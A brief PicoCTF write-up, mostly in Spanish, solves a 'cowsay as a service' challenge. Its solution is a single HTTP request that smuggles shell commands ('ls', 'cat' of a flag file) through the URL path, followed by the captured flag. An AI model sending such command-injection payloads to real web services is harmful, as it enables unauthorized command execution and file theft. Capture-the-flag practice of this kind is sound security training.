 # Retos PicoCTF


## Objetivo 

Now presenting cowsay as a service
## Solución 

```
GET /cowsay/mooo;ls;cat%20falg.txt HTTP/2
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

## Notas adicionales 

## Referencias 
